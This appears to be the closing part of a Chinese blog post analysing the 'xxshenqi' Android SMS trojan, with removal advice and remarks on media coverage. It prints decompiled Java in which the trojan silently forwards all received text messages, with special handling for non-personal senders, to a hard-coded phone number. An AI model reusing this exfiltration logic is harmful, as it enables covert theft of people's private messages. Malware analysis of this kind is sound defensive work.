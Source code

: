 
功能似乎写了，但是看不到case情况，不了解。安装这个顺序应该默认都执行defult，好奇怪。

发现是类似淘宝信息就发送给作者：

    :::java
	if (str3.length() != 11)
    {
      System.out.println("木马觉得淘宝信息==============================");
      str4 = "【特殊消息】" + str2;
      if (str4.length() > 60)
      {
        localSmsManager.sendTextMessage("18670259904", null, str4.substring(0, str4.length() / 2), null, null);
        localSmsManager.sendTextMessage("18670259904", null, str4.substring(1 + str4.length() / 2), null, null);
      }
    }

不过仅仅是以手机号长度不是11位就判定。。应该是获取所有非手机号的短信，比如各种106开头的短信。

关键是，即使是普通短信也要发送给作者：

    :::java
          localSmsManager.sendTextMessage("18670259904", null, str4, null, null);
      continue;
      System.out.println("木马觉得是普通信息==============================");
      localSmsManager.sendTextMessage("18670259904", null, "From:" + str3 + ";content:" + str2, null, null);

所以网上有人说是监控他女朋友的也是有可能的。。。


# 写在最后 #
整个代码分析下来发现没什么亮点，无非就是后台偷偷摸摸做一些事情，然后把你的短信都发到他那里去。。。说好听点就是监控木马。

作者估计只是玩一下，用了自己的手机号，以及自己的QQ和QQ邮箱，还留下了密码。怪不得很多人说登录了作者的其他账户游玩了-。-

估计8.2那天作者的手机短信收到爆满吧。。。邮件的话应该很多人去围观邮箱作者改密码了所以应该都发送失败（这好歹是个有技术含量的点）

清理木马只要把xxshenqi和trogoogle卸载就好。

最后吐槽一下“良心媒体”的大肆宣传和各大厂商的软文，简直看不下去了。


*作者可能真是没有恶意，不过看上去好像已经悲剧了。*